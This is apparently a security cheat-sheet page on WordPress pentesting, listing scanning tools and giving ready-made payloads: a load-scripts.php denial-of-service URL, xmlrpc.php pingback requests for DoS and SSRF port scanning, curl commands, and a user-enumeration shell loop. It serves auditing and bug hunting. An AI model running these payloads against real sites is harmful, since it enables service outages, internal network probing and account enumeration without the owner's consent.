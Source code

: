 +++
title = "Wordpress Security"
date = '2022-11-20'
description = 'Common misconfigurations, risky default settings, major mistakes, and general methodologies that are useful when pentesting/bug hunting/auditing wordpress websites.'
+++
# WordPress Security

## Wordpress Tools:
 - [https://github.com/wpscanteam/wpscan](WPScan) - One of the better tools at it's just.
 -- gem install wpscan
 -- docker pull wpscanteam/wpscan
 -- wpscan --update # updates the database
 -- Users of pentesting distrobutions generally should install the version from their repository.
 - [https://github.com/nullfil3/xmlrpc-scan](https://github.com/nullfil3/xmlrpc-scan)
 - [https://github.com/relarizky/wpxploit](https://github.com/relarizky/wpxploit)

## Wordpress Tricks:

### load-scripts.php denial of service
`load-scripts.php` resource exhaustion
**Wordpress versions 4.9.3** and prior:
```
/wp-admin/load-scripts.php?load=eutil,common,wp-a11y,sack,quicktag,colorpicker,editor,wp-fullscreen-stu,wp-ajax-response,wp-api-request,wp-pointer,autosave,heartbeat,wp-auth-check,wp-lists,prototype,scriptaculous-root,scriptaculous-builder,scriptaculous-dragdrop,scriptaculous-effects,scriptaculous-slider,scriptaculous-sound,scriptaculous-controls,scriptaculous,cropper,jquery,jquery-core,jquery-migrate,jquery-ui-core,jquery-effects-core,jquery-effects-blind,jquery-effects-bounce,jquery-effects-clip,jquery-effects-drop,jquery-effects-explode,jquery-effects-fade,jquery-effects-fold,jquery-effects-highlight,jquery-effects-puff,jquery-effects-pulsate,jquery-effects-scale,jquery-effects-shake,jquery-effects-size,jquery-effects-slide,jquery-effects-transfer,jquery-ui-accordion,jquery-ui-autocomplete,jquery-ui-button,jquery-ui-datepicker,jquery-ui-dialog,jquery-ui-draggable,jquery-ui-droppable,jquery-ui-menu,jquery-ui-mouse,jquery-ui-position,jquery-ui-progressbar,jquery-ui-resizable,jquery-ui-selectable,jquery-ui-selectmenu,jquery-ui-slider,jquery-ui-sortable,jquery-ui-spinner,jquery-ui-tabs,jquery-ui-tooltip,jquery-ui-widget,jquery-form,jquery-color,schedule,jquery-query,jquery-serialize-object,jquery-hotkeys,jquery-table-hotkeys,jquery-touch-punch,suggest,imagesloaded,masonry,jquery-masonry,thickbox,jcrop,swfobject,moxiejs,plupload,plupload-handlers,wp-plupload,swfupload,swfupload-all,swfupload-handlers,comment-repl,json2,underscore,backbone,wp-util,wp-sanitize,wp-backbone,revisions,imgareaselect,mediaelement,mediaelement-core,mediaelement-migrat,mediaelement-vimeo,wp-mediaelement,wp-codemirror,csslint,jshint,esprima,jsonlint,htmlhint,htmlhint-kses,code-editor,wp-theme-plugin-editor,wp-playlist,zxcvbn-async,password-strength-meter,user-profile,language-chooser,user-suggest,admin-ba,wplink,wpdialogs,word-coun,media-upload,hoverIntent,customize-base,customize-loader,customize-preview,customize-models,customize-views,customize-controls,customize-selective-refresh,customize-widgets,customize-preview-widgets,customize-nav-menus,customize-preview-nav-menus,wp-custom-header,accordion,shortcode,media-models,wp-embe,media-views,media-editor,media-audiovideo,mce-view,wp-api,admin-tags,admin-comments,xfn,postbox,tags-box,tags-suggest,post,editor-expand,link,comment,admin-gallery,admin-widgets,media-widgets,media-audio-widget,media-image-widget,media-gallery-widget,media-video-widget,text-widgets,custom-html-widgets,theme,inline-edit-post,inline-edit-tax,plugin-install,updates,farbtastic,iris,wp-color-picker,dashboard,list-revision,media-grid,media,image-edit,set-post-thumbnail,nav-menu,custom-header,custom-background,media-gallery,svg-painter
```

### Check IP behind Cloudflare
[https://blog.nem.ec/2020/01/22/discover-cloudflare-wordpress-ip/](https://blog.nem.ec/2020/01/22/discover-cloudflare-wordpress-ip/)
Get the IP address of a target wordpress website by abusing the ping-back feature

## Testing xml-rpc on all Wordpress versions
[https://nitesculucian.github.io/2019/07/01/exploiting-the-xmlrpc-php-on-all-wordpress-versions/](https://nitesculucian.github.io/2019/07/01/exploiting-the-xmlrpc-php-on-all-wordpress-versions/)

### pingback.xml (can be used for DoS and potential to zombie into a DDoS)
```
<?xml version="1.0" encoding="iso-8859-1"?>
<methodCall>
<methodName>pingback.ping</methodName>
<params>
 <param>
  <value>
   <string>http://10.0.0.1/hello/world</string>
  </value>
 </param>
 <param>
  <value>
   <string>https://10.0.0.1/hello/world/</string>
  </value>
 </param>
</params>
</methodCall>
```

### WordPress xml-rpc.php SSRF (internal/local port scan)
Easy example would be to check a port that needs to be open or is generally open internally

```
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<TARGET-TO-SCAN>:<PORT-TO-CHECK></string></value>
</param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
</value></param></params>
</methodCall>
```

### Lsist available methods through xml-rpc
```
<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
```

`curl -X POST -d @pingback.xml https://exmaple.com/xmlrpc.php`

### Check for presence of xmlrpc
`curl -d '<?xml version="1.0" encoding="iso-8859-1"?><methodCall><methodName>demo.sayHello</methodName><params/></methodCall>' -k https://example.com/xmlrpc.php`

### xml-rpc.php tool
 - [https://github.com/nullfil3/xmlrpc-scan](https://github.com/nullfil3/xmlrpc-scan)


### Enumerate users
```
for i in {1..50}; do curl -s -L -i https://example.com/wordpress?author=$i | grep -E -o "Location:.*" | awk -F/ '{print $NF}'; done
```
[https://site.com/wp-json/wp/v2/users/](https://site.com/wp-json/wp/v2/users/)


### Common Misconfigurations:
- Often admins will forget to disable directory listing even for sensitive directories (plugins/themes/etc.. worth checking, I always try /wp-content/uploads/ hoping for directory listing)
- wp-cron.php denial of service: If they're running any kind of older WP then wp-cron runs every time a web page is loaded. For sites make use of several plugins or poorly coded plugins or even just things that take a while to complete (rebuilding cache?), a flood of requests can cause the wp-cron.php method to take the site down..
